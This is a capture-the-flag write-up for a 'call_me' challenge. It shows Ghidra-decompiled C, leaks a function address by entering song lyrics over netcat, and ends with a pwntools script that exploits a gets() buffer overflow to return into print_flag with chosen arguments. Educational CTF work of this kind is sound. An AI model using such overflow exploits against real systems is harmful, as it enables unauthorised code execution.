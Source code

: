 # call_me

```
As the name suggests, you should probably call some function (with the correct arguments) to make the service print a flag. Are there any other flags? Maybe...
```

In order to understand what the executable would normally do I tried to run it and when prompted I inserted random values.
Doing so I finally got this message outputted

```
Wow, you do know the song! However, you did not solve the challenge :-(
```

Reading this I thought that maybe some pattern matching was executed against the input looking for a specific song's lyrics.
Leveraging this I opened the file with Ghidra looking for something related.
Analysing the functions I found one with an interesting body

```c
void FUN_000111ed(int param_1,int param_2,int param_3)
{
	printf("BASC{");
	if (param_1 != 0xb100d) {
	    exit(1);
	}
	printf("you_g0t_");
	if (param_2 != 0x5e1ec7ed) {
	    exit(2);
	}
	printf("the_args_");
	if (param_3 != 0x7ea) {
        exit(3);
	}
	puts("right}.");
        exit(0x2a);
	}
}
```

This functions seemed to print a flag if some specific parameters where passed.
To better understand what was going on I used the functionality to show the functions' calls tree.
Doing so I discovered that the "print_flag" function was called by another one 

```c
void FUN_000112f8(void)
{
	char *pcVar1;
	int iVar2;
	char acStack_bd [165];
	size_t local_18;
	int local_14;
	int local_10;
  
	local_10 = 0;
	local_14 = 0;
	while( true ) {
	    if ((&PTR_s_Color_me_your_color,_baby_00014020)[local_14] == (undefined *)0x0) {
			puts("Wow, you do know the song! However, you did not solve the challenge :-(");
			return;
	    }
	    printf("Enter line #%d: ",local_14 + 1);
	    pcVar1 = gets(acStack_bd + 1);
	    if (pcVar1 == (char *)0x0) break;
	    local_18 = strlen(acStack_bd + 1);
	    if (0x50 < local_18) {
	      return;
	    }
	    if ((local_18 != 0) && (acStack_bd[local_18] == '\n')) {
	      acStack_bd[local_18] = '\0';
	    }
	    iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
	    if (iVar2 == 0) {
	      local_10 = local_10 + 1;
	      if (local_10 == 3) {
	        printf("&target=%p\n",print_flag);
	      }
	    }
	    else {
	      local_10 = local_10 + -1;
	    }
	    local_14 = local_14 + 1;
	  }
  return;
}
```

This function was actually the one that prompted the user to insert the song's lyrics and looking at the line 

```c
printf("Enter line #%d: ",local_14 + 1);
```

I understood that the variable **local_14** held a index that kept track the current song's lyrics line that would be later on compared with the one inserted by the user

```c
iVar2 = strcmp(acStack_bd + 1,(&PTR_s_Color_me_your_color,_baby_00014020)[local_14]);
```

If the comparison was successful the variable **local_10** would be incremented and when the value 3 was reached it should leak the address of the **print_flag** function.
So in order to get the address I had to insert three correct lines of the song's lyrics

```
> nc 192.168.20.1 5110
Enter line #1: Color me your color, baby
Enter line #2: Color me your car
Enter line #3: Color me your color, darling
&target=0x5664a1ed
```

Knowing this I could finally exploit the program through the **gets** function vulnerability.

```c
pcVar1 = gets(acStack_bd + 1);
```

It is possible to conduct a buffer overflow attack pretty easily figuring out the offset necessary to fill the **acStack_bd** variable ( e.g. using a cyclic pattern ) and then returning to the dynamically leaked function's address.
I had also to pass the correct parameters leaked by the **print_flag** function in order to get the flag.
Adding a 4 bytes offset between the function address and the parameters was necessary due to the architecture calling convention.

```python
p = pwn.remote(HOST, PORT)
p.recvuntil(b":")
p.sendline(b"Color me your color, baby")
p.recvuntil(b":")
p.sendline(b"Color me your car")
p.recvuntil(b":")
p.sendline(b"Color me your color, darling")
leaked_address = p.recvuntil(b"target=")
leaked_address = p.recvline().strip().decode()
p.sendline(
	b"a" * OFFSET
	+ pwn.p32(int(leaked_address, 16))
	+ b"a" * 4
	+ pwn.p32(int(FIRST_PARAM, 16))
	+ pwn.p32(int(SECOND_PARAM, 16))
	+ pwn.p32(int(THIRD_PARAM, 16))
)
p.interactive()
```

Doing so I was able to get the first flag

```
BASC{you_g0t_the_args_right}
```


